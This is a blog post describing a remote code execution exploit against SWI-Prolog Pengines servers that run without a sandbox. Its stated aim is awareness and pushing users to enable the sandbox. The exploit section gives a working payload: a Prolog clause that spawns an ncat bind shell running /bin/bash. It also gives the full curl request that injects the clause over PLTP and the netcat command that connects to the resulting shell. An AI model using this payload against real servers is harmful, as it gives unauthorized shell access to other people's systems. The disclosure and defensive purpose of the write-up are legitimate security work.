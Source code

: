 ```yaml
---
title: An RCE Exploit for a Vulnerable Pengine Server
updated: 2021-07-09 17:25
---
```


In this blogpost, I present an exploit to obtain remote code execution (RCE) on a server that runs an SLD resolution service through the Prolog library *Pengines*. The exploit uses the Prolog Transport Protocol (PLTP) over HTTP and works by exploiting a vulnerability in Pengine servers that are not sandboxed. The vulnerability allows a client to inject malicious Prolog code in the knowledge base of the SLD-resolver. I show how this can be used to obtain a reverse shell with netcat. Although the Prolog community is aware of this vulnerability, to the best of my knowledge, this is the first report that demonstrates how the vulnerability can be exploited by an adversary. My goal is that this report can increase awareness among Pengine users and make them more inclined to use the sandbox security mechanism to prevent the exploit. The code is available here [https://github.com/Limmen/Pengine_RCE_Exploit](https://github.com/Limmen/Pengine_RCE_Exploit).

### Overview of Pengines

The developed exploit uses exploits a capability in non-sandboxed Pengine servers that allows a client to upload Prolog code with Horn clauses that gets injected into the knowledge base of the Prolog server. After injecting a malicious Horn-clause into the Prolog knowledge base, the client can send a query to the Pengine server to ask the server to prove the malicious Horn-clause using SLD-resolution. This causes the exploit to be invoked and yields the client a reverse shell to the server where arbitrary bash commands can be executed.

Pengines is short for Prolog Engines. Pengines is a library in SWI-Prolog that allows you to perform SLD resolution at a remote Prolog server [1]. With Pengines, a Prolog server can export its predicates to be remote clients (see figure below). This means that the clients can resolve queries and prove statements from remote. The Prolog server is accessible through a protocol called the Prolog Transport Protocol (PLTP) which runs over HTTP.

![A Pengines server and client](/assets/pengine1.png "A Pengines server and client")

#### Sandboxing and Security
The Pengines library supports sandboxing. This mechanism can be used to declare the predicates at the Prolog server that are are deemed to be "safe" to be exported to remote clients. The safe predicates then get executed in a sandboxed environment, where unsafe predicates are not available (see figure below).

![A sandboxed Pengines server](/assets/pengine2.png "A sandboxed Pengines server")

### The Exploit
The exploit uses the following setup. A vulnerable Pengines server is running on $172.17.0.2$ and listens on for PLTP requests on port $4000$. The Pengines server has a set of Prolog predicates that can be used to resolve Sudokus using constraint logic programming. To use this service, the client can first upload a sudoku problem, e.g:

```prolog
problem(1, [[_,_,_,_,_,_,_,_,_],
            [_,_,_,_,_,3,_,8,5],
            [_,_,1,_,2,_,_,_,_],
            [_,_,_,5,_,7,_,_,_],
            [_,_,4,_,_,_,1,_,_],
            [_,9,_,_,_,_,_,_,_],
            [5,_,_,_,_,_,_,7,3],
            [_,_,2,_,1,_,_,_,_],
            [_,_,_,_,4,_,_,_,9]]).
```
Then, after uploading a sudoku problem, the client can issue queries against the Pengine server for solving the Sudoku. For example:
```
problem(1, Rows), sudoku(Rows).
```
The Pengine server will then perform SLD resolution to resolve the query and return the variable ``Rows'' with the solution to the Sudoku (see figure below).

![A Pengines server acting as a Sudoku resolver.](/assets/pengine3.png "A Pengines server acting as a Sudoku resolver.")

#### The Vulnerability
The Pengines server does not use a sandbox to execute the logic to solve the sudoku. Thus, the server is vulnerable to attacks that use unsafe predicates. That is, while the Pengine server will fill its intended purpose and solve sudokus for benign clients, it can also be used by adversarial clients to execute malicious code.

#### Payload of the Exploit
To exploit the vulnerable server, a client can inject malicious Prolog code in the remote server when uploading the Sudoku problem. Specifically, instead of just uploading a Sudoku problem defined in Prolog code, the client can add a side-effect to the Prolog code that will execute malicious code.

The payload of the exploit is as follows:
```prolog
problem(1, [[_,_,_,_,_,_,_,_,_],
            [_,_,_,_,_,3,_,8,5],
            [_,_,1,_,2,_,_,_,_],
            [_,_,_,5,_,7,_,_,_],
            [_,_,4,_,_,_,1,_,_],
            [_,9,_,_,_,_,_,_,_],
            [5,_,_,_,_,_,_,7,3],
            [_,_,2,_,1,_,_,_,_],
            [_,_,_,_,4,_,_,_,9]]):-
	shell("ncat -n -v -l -p 5555 -e /bin/bash &").
```
In the above Prolog code, in addition to defining a Sudoku problem, a netcat process is created in the background.

Lastly, to perform the exploit, we have to send the payload of the exploit to the Pengine server, this can be done using the PLTP protocol and curl:

```bash
curl --header "Content-Type: application/json"
     --request POST
     --data $'{"application": "pengine_sandbox", "as": "problem(1, Rows), sudoku(Rows)",
              "chunk": 1, "destroy": true, "format":"json",
              "src_text": "problem(1,
              [[_,_,_,_,_,_,_,_,_],
              [_,_,_,_,_,3,_,8,5],
              [_,_,1,_,2,_,_,_,_],
              [_,_,_,5,_,7,_,_,_],
              [_,_,4,_,_,_,1,_,_],
              [_,9,_,_,_,_,_,_,_],
              [5,_,_,_,_,_,_,7,3],
              [_,_,2,_,1,_,_,_,_],
              [_,_,_,_,4,_,_,_,9]]):-
              \n\tshell(\\"ncat -n -v -l -p 5555 -e /bin/bash &\\").\n"}'
              http://127.0.0.1:4000/pengine/create
```
After sending the exploit, we can use netcat to connect and obtain a remote shell with the following command:
```
ncat -nv 127.0.0.1 5555
```

### Discussion and Implications

This exploit is only possible against Pengine servers that are not sandboxed. In early versions of the Pengines library, servers were not sandboxed by default. However, in the latest versions, the sandbox functionality is enabled by default. Thus the user has to actively disable the sandbox to make the vulnerability active. Hence, it is safe to say that the Prolog community is well aware of this vulnerability and how it can be exploited. However, to the best of my knowledge, this report provides the first detailed description of how such an exploit can be executed. My hope is that this report can increase awareness and make more people that use the Pengines library inclined to use the sandbox security mechanism to prevent this exploit.

### Conclusions

In this blogpost, I have presented a novel RCE exploit that uses a remote SLD resolver in Prolog to obtain a reverse shell. The exploit uses the PLTP protocol and a vulnerability in Pengine servers that are not sandboxed. The vulnerability allows the client to upload malicious Prolog code that gets injected into the knowledge base of the Prolog server. I have shown how this vulnerability can be exploited to obtain a reverse shell with netcat.
### References

- [1] Lager, Torbjörn and Jan Wielemaker (2014). “Pengines: Web Logic Programming Made Easy”. In:
CoRR abs/1405.3953. arXiv: 1405.3953. url: http://arxiv.org/abs/1405.3953.

